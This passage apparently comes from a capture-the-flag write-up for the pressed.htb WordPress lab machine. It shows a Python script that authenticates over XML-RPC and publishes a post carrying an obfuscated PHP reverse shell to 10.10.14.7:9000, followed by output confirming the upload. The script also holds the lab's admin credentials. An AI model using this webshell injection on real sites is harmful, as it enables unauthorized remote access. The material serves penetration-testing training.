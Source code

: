 Bingo! I can inject `php` code with this process.
Let's upload a real webshell.

```python
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat post_webshell_real.py                     
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods.posts import NewPost
from wordpress_xmlrpc.compat import xmlrpc_client
from wordpress_xmlrpc import WordPressPost

url = "http://pressed.htb/xmlrpc.php"
username = "admin"
password = "uhc-jan-finals-2022"

client = Client(url, username, password)

post = WordPressPost()
post.title = "PHP Injection for Reverse shell"
post.content = """<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCRzb2NrPWZzb2Nrb3BlbiglMjIxMC4xMC4xNC43JTIyLDkwMDApO3N5c3RlbSglMjIvYmluL3NoJTIwLWklMjAlM0MmMyUyMCUzRSYzJTIwMiUzRSYzJTIyKTslMjA/JTNF","version":"3.0.0"} /-->"""
post.post_status = "publish" 

try:
    post_id = client.call(NewPost(post))
    print(f"Post created successfully with ID: {post_id}")
except Exception as e:
    print(f"An error occurred: {e}")


┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python post_webshell_real.py 
Post created successfully with ID: 49
```

Let's check if it's uploaded.

```bash
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python get_posts.py                           
Post 1 Attributes:
  comment_status: closed
  content: <!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCRzb2NrPWZzb2Nrb3BlbiglMjIxMC4xMC4xNC43JTIyLDkwMDApO3N5c3RlbSglMjIvYmluL3NoJTIwLWklMjAlM0MmMyUyMCUzRSYzJTIwMiUzRSYzJTIyKTslMjA/JTNF","version":"3.0.0"} /-->
  custom_fields: []
  date: 2024-12-01 10:34:45
  date_modified: 2024-12-01 10:34:45
  definition: {'id': 'post_id', 'user': 'post_author', 'date': <wordpress_xmlrpc.fieldmaps.DateTimeFieldMap object at 0xffff9b7a0510>, 'date_modified': <wordpress_xmlrpc.fieldmaps.DateTimeFieldMap object at 0xffff9c821bd0>, 'slug': 'post_name', 'post_status': 'post_status', 'title': <wordpress_xmlrpc.fieldmaps.FieldMap object at 0xffff9b7a0610>, 'content': 'post_content', 'excerpt': 'post_excerpt', 'link': 'link', 'comment_status': 'comment_status', 'ping_status': 'ping_status', 'terms': <wordpress_xmlrpc.fieldmaps.TermsListFieldMap object at 0xffff9b7a05d0>, 'terms_names': 'terms_names', 'custom_fields': 'custom_fields', 'enclosure': 'enclosure', 'password': 'post_password', 'post_format': 'post_format', 'thumbnail': 'post_thumbnail', 'sticky': 'sticky', 'post_type': <wordpress_xmlrpc.fieldmaps.FieldMap object at 0xffff9b7a0690>, 'parent_id': 'post_parent', 'menu_order': <wordpress_xmlrpc.fieldmaps.IntegerFieldMap object at 0xffff9b7a0650>, 'guid': 'guid', 'mime_type': 'post_mime_type'}
  excerpt: 
  guid: /?p=49
  id: 49
  link: /index.php/2024/12/01/php-injection-for-reverse-shell/
  menu_order: 0
```